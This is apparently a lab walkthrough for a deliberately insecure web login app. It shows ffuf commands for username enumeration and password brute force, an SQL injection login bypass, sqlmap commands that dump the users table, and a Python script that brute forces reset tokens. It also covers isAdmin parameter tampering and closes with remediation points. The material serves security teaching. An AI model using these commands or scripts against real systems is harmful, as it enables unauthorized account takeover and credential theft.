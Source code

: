 # Exploiting the Vulnerable Authentication App

## Introduction

In this guide, we present a comprehensive demonstration of common authentication vulnerabilities found in web applications and how to exploit them using penetration testing tools. The vulnerable application intentionally implements insecure authentication mechanisms that align with the OWASP Top 10 Web Application Security Risks for demonstration purposes, specifically focusing on:

- **A2:2021 - Cryptographic Failures** (insecure storage of credentials)
- **A7:2021 - Identification and Authentication Failures** (weak password recovery, brute force vulnerabilities)
- **A1:2021 - Broken Access Control** (improper authorization checks)
- **A3:2021 - Injection** (SQL injection vulnerabilities)


## Vulnerability Summary Table

| Vulnerability | OWASP Category | Method of Exploitation | Tools Used | Impact |
|--------------|----------------|------------------------|------------|--------|
| User Enumeration | A7:2021 - Identification and Authentication Failures | Different error messages for invalid username vs. password | Manual testing, ffuf | Allows attackers to discover valid usernames |
| Brute Force Passwords | A7:2021 - Identification and Authentication Failures | No rate limiting or account lockout | ffuf, wordlists | Unauthorized access to user accounts |
| SQL Injection | A3:2021 - Injection | Unvalidated user input in SQL queries | Manual testing, SQLmap | Authentication bypass, data exfiltration |
| Token-based Authentication Bypass | A7:2021 - Identification and Authentication Failures | Predictable, short reset tokens | ffuf, Python script | Password reset for any user account |
| Parameter Tampering | A1:2021 - Broken Access Control | Manipulating request parameters | Burp Suite | Unauthorized access to admin functionality |
| Insecure Credential Storage | A2:2021 - Cryptographic Failures | Plaintext password storage | SQLmap | Exposure of all user credentials |

## Prerequisites
- Parrot Security OS VM running
- Vulnerable application running on your host machine (`http://localhost:3000`)
- **Tools**: Burp Suite, ffuf, SQLmap, and basic browser

## 1. User Enumeration
### Manual Testing
We can manually try some default users like `admin` and password `admin`, `administrator`, `root` ...

![alt text](images/image.png)


We can see that the app returns `Incorrect password`, also when we try a different user that is not likely to exist, say `Javascript` and password `123456` and we see that it returns `User not found`.

![alt text](images/image-2.png)
### Using ffuf for Username Enumeration
We can use Burpsuite to intercept the request as demonstrated in the following figure:
![alt text](images/image-8.png)
After this, we can use ffuf to enumerate users using wordlists, such as the `xato-net-10-million-usernames.txt` list from SecLists:
```shell
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"FUZZ","password":"123456***"}' -fr "User not found"
```
Once we identify a valid username, such as `admin`, we can perform a brute-force attack on the password using a wordlist like `rockyou.txt`.

## 2. Brute Force Password Attacks
### Using ffuf for Password Brute Force
```shell
ffuf -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt:FUZZ -u http://IP_ADDRESS:3000/api/login -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"FUZZ"}' -fr "Incorrect password"
```
![alt text](images/image-14.png)


The password discovered is `chocolate`, allowing us to successfully log in as `admin`: 
![alt text](images/image-5.png)

## 3. SQL Injection
### Basic SQL Injection
If we try logging in with:
   - Username: `admin' --`
   - Password: (anything),
The resulting query looks like this: 
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'sasa'
```
This manipulation effectively bypasses authentication, allowing us to successfully log in as admin.
### Advanced SQL Injection with SQLmap
To discover SQL Injection vulnerabilities in our login, we can use the following command:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --level=5 --risk=3 --dbms=sqlite --technique=B --headers="Content-Type: application/json" --ignore-code=401 --batch
```

![alt text](images/image-7.png)


This output indicates that SQLmap has successfully identified SQL injection vulnerabilities in the application.
For further exploitation, we can enumerate the `users` table with sqlmap:
```bash
sqlmap -u "http://IP_ADDRESS:3000/api/login" --data='{"username":"test","password":"test"}' --headers="Content-Type: application/json" --dbms=sqlite --technique=B --level=5 --risk=3 --dump -T users --ignore-code=401
```

![alt text](images/image-6.png)

## 4. Brute Force Password Reset Tokens
When we request a password reset for a known email, such as admin@example.com, we are prompted to enter a 4-digit token:

![alt text](images/image-9.png)
We can either use `Burp Intruder` or `ffuf` to brute force the reset token:
```shell
seq -w 0 9999 > tokens.txt
```
```shell
ffuf -w ./tokens.txt:FUZZ -u http://IP_ADDRESS:3000/api/verify-reset-token -X POST -H "Content-Type: application/json" -d '{"email":"admin@example.com","token":"FUZZ"}' -fr "Invalid token or email"
```

![alt text](images/image-19.png)

![alt text](images/image-16.png)


We have successfully brute forced the reset token and now we can change the admin password.
We can also use the following python script to achieve the same result:
```python
import requests
import json
url = "http://IP_ADDRESS:3000/api/reset-password"
email = "admin@example.com"
new_password = "hacked"
for i in range(10000):
    token = str(i).zfill(4)
    payload = {
        "email": email,
        "token": token,
        "newPassword": new_password
    }
    response = requests.post(url, json=payload)
    if "success" in response.text:
        print(f"Success! Token: {token}")
        break
    if i % 100 == 0:
        print(f"Tried {i} tokens...")
```

## 5. Authentication Bypass via Parameter Modification
### API Parameter Tampering
We can capture a GET request to `/index.html` in Burp Suite and change it to a GET request to `/api/admin/users` with query parameter `isAdmin=true`:

![alt text](images/image-12.png)


After forwarding the request we observe that the response contains user data: 

![alt text](images/image-13.png)

## Conclusion

The vulnerabilities demonstrated in this document represent common but critical flaws in web application authentication systems. They allow attackers to bypass authentication, access sensitive information, and gain unauthorized privileges.

In our secure version of this application, we will demonstrate how to remediate these vulnerabilities by implementing:
- Proper password hashing with salting
- Rate limiting and account lockout policies
- Parameterized queries to prevent SQL injection
- Strong, unpredictable tokens with proper validation
- Proper session management and access control